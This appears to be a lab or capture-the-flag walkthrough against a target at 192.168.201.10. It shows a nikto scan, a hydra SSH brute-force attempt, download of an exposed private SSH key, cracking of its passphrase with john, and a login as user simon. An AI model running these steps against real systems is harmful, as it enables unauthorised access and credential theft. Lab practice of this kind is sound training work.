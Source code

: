 ````bash
nikto -h http://192.168.201.10:31337
````

Return :
````text
+ Server: Werkzeug/0.11.15 Python/3.5.3
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /robots.txt, inode: 1499600596.267103, size: 70, mtime: 1587808388
+ Entry '/.bashrc' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/.profile' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/taxes/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 3 entries which should be manually viewed.
+ Allowed HTTP Methods: OPTIONS, HEAD, GET
+ OSVDB-3093: /.bashrc: User home dir was found with a shell rc file. This may reveal file and path information.
+ OSVDB-3093: /.profile: User home dir with a shell profile was found. May reveal directory information and system configuration.
+ OSVDB-3093: /.ssh: A user's home directory may be set to the web root, an ssh file was retrieved. This should not be accessible via the web.
+ OSVDB-3093: /.ssh/authorized_keys: A user's home directory may be set to the web root, an ssh file was retrieved. This should not be accessible via the web.
````

Try brute force SSH :
````bash
hydra -l root -P /usr/share/wordlists/fasttrack.txt -s 22 192.168.201.10 ssh
ERROR] target ssh://192.168.201.10:22/ does not support password authentication (method reply 4).
````

Strange maybye an ssh key authentification...


Download private SSH key :
````bash
wget http://192.168.201.10:31337/.ssh/id_rsa

# Crack passphrases thank u https://www.abhizer.com/crack-ssh-with-john/ <3
cp $(locate ssh2john.py) .
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
````

I have found passphrase for private key :
````text
starwars         (id_rsa)
````

Try connect :
````bash
ssh -i id_rsa.hash simon@192.168.201.10
passphrase : starwars
simon@covfefe:~$
````

---